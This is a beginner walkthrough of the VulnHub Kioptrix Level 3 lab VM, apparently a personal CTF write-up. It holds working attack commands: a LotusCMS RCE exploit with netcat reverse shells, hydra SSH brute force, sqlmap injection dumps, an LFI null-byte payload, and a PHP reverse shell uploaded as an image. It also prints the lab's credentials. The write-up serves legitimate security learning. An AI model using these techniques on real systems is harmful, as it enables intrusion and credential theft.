Cover Image by <a href="https://www.freepik.com/free-vector/abstract-low-poly-triangular-background_26129667.htm#&position=0&from_view=search&track=ais">vector_corp</a> on Freepik

## Description

As with the other two, this challenge is geared toward the beginner. It is however different. Added a few more steps and a new skill set is required. Still being the realm of the beginner I must add. The same as the others, there's more than one way to "pwn" this one. There's easy and not so easy. Remember… the sense of "easy" or "difficult" is always relative to one's skill level. I never said these things were exceptionally hard, but we all need to start somewhere. And let me tell you, making these vulnerable VMs is not as easy as it looks…

The important thing with this challenge. Once you find the IP (DHCP Client) edit your host's file and point it to **kioptrix3.com**. There's a web application involved, so to have everything nice and properly displayed you need to do this.

[Kioptrix: Level 1.2 (#3) \~ VulnHub](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/)

## Information Gathering

### Finding Target

Once the Kioptrix VM is up and running its IP address has to be found.


```bash
# Network Gateway Details
ip r

# Display IP Address
ip a l eth0
```

The IP address can be obtained by performing a network scan.



The VMs are connected to the `10.0.2.0` subnet. Using `netdiscover` all the machines on the network can be found.

```bash
# Scan Subnet for devices
sudo netdiscover -P -r 10.0.2.0/24
```



Since there is no other device on the network `10.0.2.24` has to be the IP address of the Kioptrix VM.

> **Note**:  
> The `.1` and `.2` IP addresses belong to the virtual router of the network. The `.2` address can be used to connect to the host machine. The `.3` address is the DHCP server of the network.

As mentioned in the description of the VM. The IP address of the Kioptrix VM should be mapped to a domain name.

```bash
cat /etc/hosts

# Add below line in Hosts file
10.0.2.24 kioptrix3.com
```



### Port Scanning

By running a port scan the services running on the target can be found.

[GitHub - RustScan/RustScan: 🤖 The Modern Port Scanner 🤖](https://github.com/RustScan/RustScan)

```bash
sudo rustscan -a 10.0.2.24 --ulimit 5000 -- -sS -A -T4 -oN rustscan.txt
```



There are two ports open: 22 and 80



Port 22 has SSH running. It is using `OpenSSH 4.7p1`

Port 80 is used by the Apache web server. The system has Apache `2.2.8` installed. The target OS is Ubuntu. The web application utilizes PHP 5.2.4 and the OS is using kernel `2.6.x`.

[Rustscan Results · dvdmtw98/ctf-resources · GitHub](https://github.com/dvdmtw98/ctf-resources/blob/main/vulnhub/kioptrix_lvl3/rustscan.txt)

### Web App Enumeration

```bash
# Nikto Scan
nikto -h http://kioptrix3.com/ -o nikto.txt
```



`nikto` scan shows that the web application has an `/phpmyadmin` directory which implies the application uses a MySQL database.

[Nikto Scan Results · dvdmtw98/ctf-resources · GitHub](https://github.com/dvdmtw98/ctf-resources/blob/main/vulnhub/kioptrix_lvl3/nikto.txt)

```bash
# Feroxbuster Scan
feroxbuster -u http://kioptrix3.com/ -x php,html -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -d 2 -f -C 404 --no-state -o feroxbuster.txt
```

[GitHub - epi052/feroxbuster: A fast, simple, recursive content discovery tool written in Rust.](https://github.com/epi052/feroxbuster)


The directory scan also found the `/phpmyadmin` directory. Additionally, the directories `/modules`, `/cache` and `/gallery` were found.

[Feroxbuster Scan Results · dvdmtw98/ctf-resources · GitHub](https://github.com/dvdmtw98/ctf-resources/blob/main/vulnhub/kioptrix_lvl3/feroxbuster.txt)

## Gaining Access


The `/modules` directory contains some `.php` files but they don't look important. The `/gallery` route opens an image gallery.



The site does not contain the `robots.txt` and `sitemap.xml` file.

### Approach 1: Lotus CMS Exploit

On the Login page, we find that the Ligoat Security site is using Lotus CMS. 



From a quick search, we can find that this CMS system has a known remote command execution (RCE) vulnerability.

```bash
searchsploit lotusCMS
```



The RCE exploit is present in Metasploit but I decided to take a more manual approach.


[GitHub - Hood3dRob1n/LotusCMS-Exploit: LotusCMS 3.0 eval() Remote Command Execution](https://github.com/Hood3dRob1n/LotusCMS-Exploit)



```bash
# Netcat Listener
nc -nvlp 9001

git clone https://github.com/Hood3dRob1n/LotusCMS-Exploit
cd LotusCMS-Exploit
./lotusRCE.sh kioptrix3.com /
```



The script checks if the target is vulnerable and then asks for the IP address of the attack machine along with a port. Before selecting the type of listener to use ensure to start `netcat` in a separate terminal listening on the port provided in the script.



The exploit puts us at the root of the website source code. Using `find` I checked if any config files are present.

```bash
# Find Files in current directory
find . -type f -iname *config*

# View file content
cat ./gallery/gconfig.php
```


The `gconfig.php` file contains the username and password for connecting to the MySQL database. From the enumeration that was performed, we know that the target has the `/phpmyadmin` page enabled.

```bash
Username: root
Password: fuckeyou
```







The `dev_accounts` table contains the hashed passwords for user `dreg` and `loneferret`.


The `gallarific_users` table contains the password for the user `admin`.

I ran one of the hashes against `hash-identifier` to find its type.

```bash
hash-identifier 0d3eccfb887aabd50f243b3f155c0f85
```





[CrackStation - Online Password Hash Cracking - MD5, SHA1, Linux, Rainbow Tables, etc.](https://crackstation.net/)

Using `CrackStation` the value of the hashes was found. Using SSH access to the target system should now be possible.

```bash
# SSH Command
ssh loneferret@10.0.2.24 -oHostKeyAlgorithms=+ssh-rsa
```


[ssh - How to enable diffie-hellman-group1-sha1 key exchange? - Unix & Linux Stack Exchange](https://unix.stackexchange.com/questions/340844/how-to-enable-diffie-hellman-group1-sha1-key-exchange-on-debian-8-0)

> **Note**:  
> The target system uses an old version of SSH which uses encryption and key exchange algorithms that are no longer supported by default. To allow SSH to connect using these older protocols the `-o` flag is used.

### Approach 2: SSH Brute force



On the blog tab of the website, there are two posts. The first one discusses the release of an online gallery which is the site on the `/gallery` route. The second post talks about the hiring of a new programmer. The developer goes by the name `loneferret`.

The target has SSH running, I tried to brute force the password of `loneferret`. 

```bash
# Password Brute force Attack
hydra -l loneferret -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt 10.0.2.24 -t 4 ssh
```


And it worked. The password of user `loneferret` is `starwars`.

> **Note**:  
> The `-t 4` argument is important. Hydra brute forcing for SSH does not work without it.  
> 
> On new versions of Kali running Hydra against old versions of SSH does not work. To fix the issue the wide compatibility mode for SSH has to be enabled. This is done using the Kali Tweaks utility.
>
> Kali Tweaks > Hardening > SSH client
> 
> After using `hydra` remember to disable the wide compatibility mode for SSH as it lowers the security of Kali.

```bash
# SSH Command
ssh loneferret@10.0.2.24 -oHostKeyAlgorithms=+ssh-rsa
```


[ssh - How to enable diffie-hellman-group1-sha1 key exchange? - Unix & Linux Stack Exchange](https://unix.stackexchange.com/questions/340844/how-to-enable-diffie-hellman-group1-sha1-key-exchange-on-debian-8-0)

> **Note**:  
> The target system uses an old version of SSH which uses encryption and key exchange algorithms that are no longer supported by default. To allow SSH to connect using these older protocols the `-o` flag is used.

### Approach 3: SQL Injection

On the gallery portal on the Ligoat Press Room page, there is an option to sort the images based on different parameters.



On using the sort option the URI of the page changes to include the sorting option selected as a query parameter.



I tested this parameter for SQL injection vulnerability and it was indeed vulnerable.

```bash
# Test URL for SQL Injection vulnerability
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" --level 5 --risk 3 -p id,sort --dbms=mysql --output-dir=sqlmap
```


```bash
# Dump database names
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" --level 5 --risk 3 -p id,sort --dbs --output-dir=sqlmap
```



```bash
# Dump table names
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" --level 5 --risk 3 -p id,sort -D gallery --tables --output-dir=sqlmap
```



```bash
# Dump 'dev_accounts' table content
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" --level 5 --risk 3 -p id,sort -D gallery -T dev_accounts --dump --output-dir=sqlmap
```


The `dev_accounts` table contains the password hashes of `dreg` and `loneferret`. Using `sqlmap` build-in wordlist the passwords were cracked. The values as `Mast3r` and `starwars`.

```bash
# Dump 'gallarific_users' table content
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" --level 5 --risk 3 -p id,sort -D gallery -T gallarific_users --dump --output-dir=sqlmap
```



The `gallarific_users` table contains the password of an admin user in plain text.

[Sqlmap Results · dvdmtw98/ctf-resources · GitHub](https://github.com/dvdmtw98/ctf-resources/blob/main/vulnhub/kioptrix_lvl3/sqlmap/kioptrix3.com/log)

Using SSH access to the target system should now be possible.

```bash
# SSH Command
ssh loneferret@10.0.2.24 -oHostKeyAlgorithms=+ssh-rsa
```


[ssh - How to enable diffie-hellman-group1-sha1 key exchange? - Unix & Linux Stack Exchange](https://unix.stackexchange.com/questions/340844/how-to-enable-diffie-hellman-group1-sha1-key-exchange-on-debian-8-0)

> **Note**:  
> The target system uses an old version of SSH which uses encryption and key exchange algorithms that are no longer supported by default. To allow SSH to connect using these older protocols using the `-o` flag is used.

### Bonus Approach: LFI + Reverse Shell

The site uses query parameters to decide the content to be rendered. Sites that use query parameters that are not properly sanitized can be vulnerable to LFI (Local File Inclusion).

[Testing for Local File Inclusion - OWASP](https://wiki.owasp.org/index.php/Testing_for_Local_File_Inclusion)

```
http://kioptrix3.com/index.php?system=../../../../../etc/passwd%00.html
```



The query parameter `system` that is used on the Blog and Login page is vulnerable to LFI and using it the content of the `/etc/passwd` can be dumped. The two users that have accounts on the system are `loneferret` and `dreg`.


The source code of the gallery portal reveals an additional route `/gadmin` which might still be accessible. This route leads to an admin login page.


To continue ahead with this approach we need the content of the `gallarific_users` table from the database. Approach 1 and Approach 3 can be used to get the details.

```
Username: admin
Password: n0t7t1k4
```


On login, a dashboard is visible that can be used to add/delete/modify the images that are posted onto the gallery. From the Upload tab under Photos, I tried to upload a PHP reverse shell.

[pentestmonkey/php-reverse-shell · GitHub](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)


I uploading a `.php` file and the upload seemed to be successful. 


On trying to open the uploaded file I got a "File not Found" error which means that even though an entry was added to the database the file was not uploaded.



I changed the extension of the script to `.jpg` and reuploaded it. This time on opening the file I received a different message.



Now it looks like the file was indeed uploaded but since it is not an actual image the browser could not render the file. 

Set up a listener using `netcat` and using the LFI vulnerability that was found on the `system` query parameter execute the script.

```bash
# Listener
nc -nvlp 9002

# URL with LFI
http://kioptrix3.com/index.php?system=../../../../../../../../../../home/www/kioptrix3.com/gallery/photos/9x02r923va.jpg%00.html
```

